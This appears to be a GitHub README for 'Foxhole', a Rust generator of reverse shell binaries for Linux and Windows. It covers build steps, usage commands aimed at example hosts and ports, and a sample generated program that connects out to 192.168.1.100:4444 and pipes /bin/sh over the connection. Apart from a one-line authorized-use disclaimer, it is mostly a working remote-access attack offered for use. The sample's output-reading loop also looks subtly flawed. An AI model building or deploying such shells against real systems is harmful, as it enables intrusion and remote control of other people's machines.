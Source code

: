 # Foxhole

A stealthy, cross-platform reverse shell generator written in Rust.

## Features

- Cross-platform support (Linux and Windows)
- TLS encryption support
- Customizable shell path
- Minimal and fast binaries
- Release mode compilation for smaller size

## Installation

```bash
git clone https://github.com/ArsCodeAmatoria/foxhole.git
cd foxhole
cargo build --release
```

## Usage

```bash
foxhole --ip <target_ip> --port <target_port> --os <linux|windows> [--shell <shell_path>] [--tls] --output <output_path>
```

### Command Line Arguments

- `--ip`: Target IP address or hostname
- `--port`: Target port number
- `--os`: Target operating system (linux or windows)
- `--shell`: Custom shell path (optional)
- `--tls`: Enable TLS encryption
- `--output`: Output binary path

### Examples

Basic Linux reverse shell:
```bash
foxhole --ip 192.168.1.100 --port 4444 --os linux --output shell
```

Windows reverse shell with TLS:
```bash
foxhole --ip example.com --port 443 --os windows --tls --output shell.exe
```

Custom shell path:
```bash
foxhole --ip 192.168.1.100 --port 4444 --os linux --shell /bin/bash --output shell
```

### Generated Shell Code Example

```rust
use std::io::{self, Read, Write};
use std::net::TcpStream;
use std::process::{Command, Stdio};

fn main() -> io::Result<()> {
    let addr = "192.168.1.100:4444";
    let stream = TcpStream::connect(addr)?;
    let mut stream = stream;

    let mut child = Command::new("/bin/sh")
        .stdin(Stdio::piped())
        .stdout(Stdio::piped())
        .stderr(Stdio::piped())
        .spawn()?;

    let mut buffer = [0; 1024];
    loop {
        let n = stream.read(&mut buffer)?;
        if n == 0 { break; }
        
        child.stdin.as_mut().unwrap().write_all(&buffer[..n])?;
        child.stdin.as_mut().unwrap().flush()?;
        
        let mut output = String::new();
        child.stdout.as_mut().unwrap().read_to_string(&mut output)?;
        stream.write_all(output.as_bytes())?;
        stream.flush()?;
    }
    Ok(())
}
```

## Requirements

- Rust toolchain (latest stable)
- `rustc` compiler
- For cross-compilation: `cross` (optional)

## Building for Different Platforms

### Linux to Windows Cross-Compilation

```bash
cross build --release --target x86_64-pc-windows-msvc
```

### Windows to Linux Cross-Compilation

```bash
cross build --release --target x86_64-unknown-linux-gnu
```

## Security Note

This tool is for educational and authorized testing purposes only. Unauthorized use on systems you don't own or have permission to test is illegal. 